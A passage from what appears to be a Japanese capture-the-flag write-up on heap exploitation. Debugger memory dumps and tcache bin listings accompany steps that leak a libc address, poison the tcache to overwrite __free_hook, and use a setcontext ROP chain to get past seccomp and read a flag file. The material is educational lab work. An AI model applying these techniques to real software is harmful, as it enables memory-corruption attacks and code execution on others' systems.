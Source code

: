 0x55555555af50:	0x0000000000000000	0x0000000000000000
0x55555555af60:	0x0000000000000070	0x0000000000000080
0x55555555af70:	0x000055555555b220	0x0000555555559010
0x55555555af80:	0x0000000000000003	0x0000000000000000
0x55555555af90:	0x0000000000000003	0x0000000000000000
0x55555555afa0:	0x0000000000000001	0x0000000000000000
0x55555555afb0:	0x0000000000000000	0x0000000000000000
0x55555555afc0:	0x0000000000000000	0x0000000000000000
0x55555555afd0:	0x0000000000000000	0x0000000000000000
0x55555555afe0:	0x0000000000000000	0x0000000000000021
0x55555555aff0:	0x000055555555b20a	0x0000000000000000

下記を実行することで、libcのアドレス(0x00007ffff7f8bc40)を取得できる
Alloc(0xe0, "\n")
Alloc(0xe0, "A"*15+"\n")

0x55555555aed0:	0x0000000000000000	0x0000000000000000
0x55555555aee0:	0x0000000000000000	0x00000000000000f1
0x55555555aef0:	0x4141414141414141	0x0a41414141414141
0x55555555af00:	0x00007ffff7f8bc40	0x000055555555ad50
                ~~~~~~~~~~~~~~~~~~
0x55555555af10:	0xffffffffffffffff	0xffffffffffffffff
0x55555555af20:	0x0000000100000000	0x0000000000000000
0x55555555af30:	0x0000000093507296	0x0000000000000000
0x55555555af40:	0x0000000000000000	0x0000000000000000
0x55555555af50:	0x0000000000000000	0x0000000000000000
0x55555555af60:	0x0000000000000070	0x0000000000000080
0x55555555af70:	0x000055555555b220	0x0000555555559010
0x55555555af80:	0x0000000000000003	0x0000000000000000

下記を実行することで、0x80サイズのtcachebinsに(free_hook-0x10)のデータを書き込むことができる。
Free()
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))

pwndbg> bins
tcachebins
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸ 0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0
0x70 [  3]: 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸ 0x55555555add0 —▸ 0x55555555af70 —▸ 0x7ffff7f8de38 (__attr_list_lock) ◂— 0x0
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸ 0x555555559800 —▸ 0x555555559370 ◂— 0x0


__free_hookにはseccompでシステムコールが制限されているため、ROPに持ち込む必要があるが、
setcontext関数で使用するレジスタがrdxに変更になっているため、直接は使用できない。
他にはpush rdi; ... ;pop rsp;...;ret; のROPガジェットを探したが、利用できるものはなかった。


下記のサイトを確認したところ、mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];　のROPガジェットとsetcontext関数を利用することで、rspレジスタにヒープのアドレスを設定できるので、ROPを利用できる。
https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/

ROPでは、./flag.txtファイルをopenして、read、writeの順にシステムコールすることで、フラグファイルを読み出すことができる。
